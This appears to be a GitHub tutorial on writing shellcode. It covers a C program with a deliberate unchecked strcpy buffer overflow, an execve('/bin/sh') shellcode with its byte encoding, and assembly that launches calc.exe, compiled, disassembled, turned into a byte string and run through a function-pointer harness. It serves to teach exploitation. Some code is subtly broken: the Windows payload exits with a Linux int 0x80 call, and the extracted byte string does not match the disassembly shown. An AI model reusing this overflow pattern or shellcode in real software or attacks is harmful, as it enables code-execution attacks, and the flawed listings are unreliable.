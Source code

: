 ### shellcode?

- a small piece of code used as a payload for exploitation of software.
- written in assembly language and designed to be injected into memory.
- primary use is arbitrary code execution.

#### How does Shellcode work?

a basic program that is vulnerable to a buffer overflow due to not checking
lengths passed.

```c
#include <stdio.h>
#include <string.h>

void no_length_check_function(char *input) {
    char buffer[100]; // add a buffer
    strcpy(buffer, input); // do not check the length of the input and copy
}

// create the 'entrypoint' for the program that takes argc (argument count) and
// argv (argument variables) as the arguments
int main(int argc, char *argv[]) {
    // pass the first argv (argv[1]) which will be the second argument IE:
    // file.exe ARGUMENT1 to the vulnerable function
    no_length_check_function(argv[1]);
    return 0; // return becuase it's an int
}
```

when compiled allows an attacker to control the EIP by passing more than 100 characters as the argument.

a pseudo shellcode to overwrite the EIP with the following:

```asm
xor eax, eax        ;"\x31\xc0"
push eax            ;"\x50"
push "//sh"         ;"\x68\x2f\x2f\x73\x68"
push "/bin"         ;"\x68\x2f\x62\x69\x6e"
mov ebx, esp        ;"\x89\xe3"
push eax            ;"\x50"
push ebx            ;"\x53"
mov ecx, esp        ;"\x89\xe1"
cdq                 ;"\x99"
mov al, 0xb         ;(execve syscall number) ;"\xb0\x0b"
int 0x80            ;(trigger syscall) ;"\xcd\x80"
```

#### Let's write some shellcode!

a basic assembly program to launch calc.exe.

```asm
section .text
    global _start

_start:
    ; push a null terminated string containing 'calc.exe' onto the stack
    xor    eax, eax
    push   eax
    push   0x6578652e  ; "exe."
    push   0x636c6163  ; "calc"
    mov    ebx, esp

    ; get WinExec address from kernel32.dll (typical system might be different for your system)
    mov    eax, 0x76c76360

    push   1
    push   ebx  ; "calc.exe"
    call   eax  ; call WinExec(lpCmdLine="calc.exe", SW_SHOWNORMAL)

    ; exit cleanly
    xor    eax, eax
    push   eax
    mov    al, 0x1
    int    0x80
```

need two things:

1. [NASM](https://www.nasm.us/)
2.[MinGW](https://www.mingw-w64.org/downloads/)

#### Compiling it!

first compile the shellcode into an object (`.o`) file.

1. `nasm -f win32 .\test_calc.asm -o test_calc.o`

2. Link the object file `gcc -m32 -o test_calc.exe .\test_calc.o "-Wl,-e,_start" -nostdlib`

#### Adding shellcode to your attack

```
PS C:\Users\xxx> objdump -d .\test_calc.o

.\test_calc.o:     file format pe-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    %eax,%eax
   2:   50                      push   %eax
   3:   68 2e 65 78 65          push   $0x6578652e
   8:   68 63 61 6c 63          push   $0x636c6163
   d:   89 e3                   mov    %esp,%ebx
   f:   b8 60 63 c7 76          mov    $0x76c76360,%eax
  14:   6a 01                   push   $0x1
  16:   53                      push   %ebx
  17:   ff d0                   call   *%eax
  19:   31 c0                   xor    %eax,%eax
  1b:   50                      push   %eax
  1c:   b0 01                   mov    $0x1,%al
  1e:   cd 80                   int    $0x80
```

convert the above to the correct format by copying the opcodes and
converting them into the `\xnn` format like so:

```
\x31\xc0\x50\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\xb8\x60\x63\xc7\x76\x6a\x01\x53\xff\xd0\x31\xc0\x50\xb0\x01\xb0\x01\xcd\x80
```

```c
unsigned char code[] = "\x31\xc0\x50\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\xb8\x60\x63\xc7\x76\x6a\x01\x53\xff\xd0\x31\xc0\x50\xb0\x01\xb0\x01\xcd\x80";

int main (void) {
    (*(void(*)()) code)();
}
```

C code calls the `unsigned char` variable as a function and runs it directly i.e. `(*(void(*)()) code)();` is
a type cast to treat the code as a function pointer without any arguments.
